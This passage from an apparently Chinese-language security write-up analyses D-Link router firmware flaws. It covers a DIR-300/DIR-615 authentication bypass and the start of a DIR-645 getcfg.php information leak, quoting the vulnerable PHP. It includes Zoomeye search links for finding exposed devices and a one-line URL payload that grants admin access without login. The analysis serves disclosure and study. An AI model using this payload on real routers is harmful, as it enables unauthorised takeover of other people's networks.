 **Zoomeye dork:**[DIR-300](https://www.zoomeye.org/searchResult?q=%20DIR-300&t=all) or [DIR-615](https://www.zoomeye.org/searchResult?q=%20DIR-615&t=all)

这里以 D-Link DIR-300 固件为例，解开固件进入 `suashfs-root/www` 文件夹

默认情况下，Web 界面中的所有页面都需要进行身份验证，但是某些页面（如 登录页面） 必须在认证之前访问。 为了让这些页面不进行认证，他们设置了一个 PHP 变量 NO_NEED_AUTH：

    <?
    $MY_NAME ="login_fail";
    $MY_MSG_FILE=$MY_NAME.".php";
    $NO_NEED_AUTH="1";
    $NO_SESSION_TIMEOUT="1";
    require("/www/model/__html_head.php");
    ?>

此漏洞触发的原因在于 全局文件 `_html_head.php`。

    <?
    /* vi: set sw=4 ts=4: */
    if ($NO_NEED_AUTH!="1")
    {
     /* for POP up login. */
    // require("/www/auth/__authenticate_p.php");
    // if ($AUTH_RESULT=="401") {exit;}
     /* for WEB based login */
     require("/www/auth/__authenticate_s.php");
     if($AUTH_RESULT=="401") {require("/www/login.php"); exit;}
     if($AUTH_RESULT=="full") {require("/www/session_full.php"); exit;}
     if($AUTH_RESULT=="timeout") {require("/www/session_timeout.php"); exit;}
     $AUTH_GROUP=fread("/var/proc/web/session:".$sid."/user/group");
    }
    require("/www/model/__lang_msg.php");
    ?>

这里我们看到 `$NO_NEED_AUTH!="1"` 如果 `$NO_NEED_AUTH` 不为 1 则进入身份认证。如果我们把`$NO_NEED_AUTH`值 设置为 1 那就绕过了认证进行任意操作。

payload：

`localhost/bsc_lan.php?NO_NEED_AUTH=1&AUTH_GROUP=0`

这里`AUTH_GROUP=0` 表示 admin 权限

![](https://images.seebug.org/content/images/2017/10/4e00273b-5edb-43ce-86f5-ff89412ffc55.png-w331s)

##### D-Link DIR-645 信息泄露漏洞

**Zoomeye dork:**[DIR-645](https://www.zoomeye.org/searchResult?q=%20DIR-645&t=all)

这里以 D-Link DIR-300 固件为例，解开固件进入 `suashfs-root/htdocs` 文件夹

D-Link DIR-645 `getcfg.php` 文件由于过滤不严格导致信息泄露漏洞。

    $SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
    TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
    $SERVICE_INDEX = 0;
    while ($SERVICE_INDEX < $SERVICE_COUNT)
    {
        $GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
        TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
        if ($GETCFG_SVC!="")
        {
            $file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
            /* GETCFG_SVC will be passed to the child process. */
            if (isfile($file)=="1") dophp("load", $file);
        }
        $SERVICE_INDEX++;
    }
